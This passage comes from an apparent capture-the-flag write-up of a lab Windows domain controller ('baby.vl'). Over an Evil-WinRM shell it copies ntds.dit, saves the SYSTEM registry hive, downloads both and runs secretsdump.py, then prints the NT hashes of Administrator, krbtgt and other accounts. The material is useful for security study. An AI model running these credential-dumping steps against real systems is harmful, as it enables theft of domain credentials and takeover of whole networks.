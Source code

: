 We now have a copy of the ntds.dit file in our user directory.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> cd ntds
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop\ntds> dir


    Directory: C:\Users\Caroline.Robinson\Desktop\ntds


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/16/2025  10:53 PM       16777216 ntds.dit

```

What we can do now is download this to our local machine.  

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop\ntds> download ntds.dit
                                        
Info: Downloading C:\Users\Caroline.Robinson\Desktop\ntds\ntds.dit to ntds.dit
                                        
Info: Download successful!
```

We are going to use a tool called `secretsdump.py` to extract all of secrets and hashes of users on the box.  We have one part of the puzzle that we need, the ntds.dit file.  But we also need one more thing, a decryption key.  Lets get that with the following command.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save HKLM\SYSTEM SYSTEM.SAV
The operation completed successfully.
```

And download it to our machine as well.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop\ntds> download SYSTEM.sav
                                        
Info: Downloading C:\Users\Caroline.Robinson\Desktop\ntds\SYSTEM.sav to SYSTEM.sav
                                        
Info: Download successful!
```

## secretsdump.py

We have all we need to dump all the hashes.

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM.sav -hashes lmhash:nthash LOCAL 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:25ab9daf2bb839c3d8852f412e412d38:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
```